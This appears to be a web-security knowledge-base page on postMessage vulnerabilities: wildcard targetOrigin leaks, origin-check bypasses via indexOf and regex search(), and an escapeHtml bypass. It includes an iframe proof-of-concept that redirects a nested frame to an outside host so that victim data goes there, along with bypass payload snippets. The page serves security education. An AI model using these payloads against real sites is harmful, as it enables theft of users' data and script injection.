 # PostMessage Vulnerabilities

## **PostMessages wildcards**

**PostMessage** uses the following function to send a message:

```javascript
targetWindow.postMessage(message, targetOrigin, [transfer]);
```

Check that **targetOrigin** could be a url like _https://company.com_, so the messages can only be sent to that user \(secure\). Or it cloud be a wildcard "**\***". In case a wildcard is used, messages could be sent to any domain.

### Attack

In [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) you can read how you could **iframe a page** that at some point may **sent** a **postmessage** using a **wildcard as targetOrigin** and **modify it's location so the data will be sent to an arbitrary domain**. In order to be able to perform this attack **X-Frame header must not be present** in the vuln page.

```markup
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code
        
        
        setTimeout(function(){ exp(); }, 6000);

        function exp(){
        setInterval(function(){ 
         window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
        }, 100);
        }
    </script>
</html>
```

## addEventListener exploitation

In order to treat the messages a code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the first thing that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information \(like changing a password\). If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints and change the victims passwords \(in this example\).

It's important to check the origin and it's **equally important to check it right:**

### Tips/Bypasses in PostMessage vulnerabilities

Copied from [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html)

* If `indexOf()` is used to check the origin of the PostMessage event, remember that it can be bypassed if the origin is contained in the string as seen in [_The Bypass_](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html#bypass)
* [@filedescriptor](https://twitter.com/filedescriptor): Using `search()` to validate the origin could be insecure. According to the docs of `String.prototype.search()`, the method takes a regular repression object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.

```javascript
"https://www.safedomain.com".search(t.origin)
```

In regular expression, a dot \(.\) is treated as a wildcard. In other words, any character of the origin can be replaced with a dot. An attacker can take advantage of it and use a special domain instead of the official one to bypass the validation, such as **www.s.afedomain.com**.

* [@bored-engineer](https://bored.engineer/): If `escapeHtml` function is used, the function does not create a `new` escaped object, instead it over-writes properties of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```javascript
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.

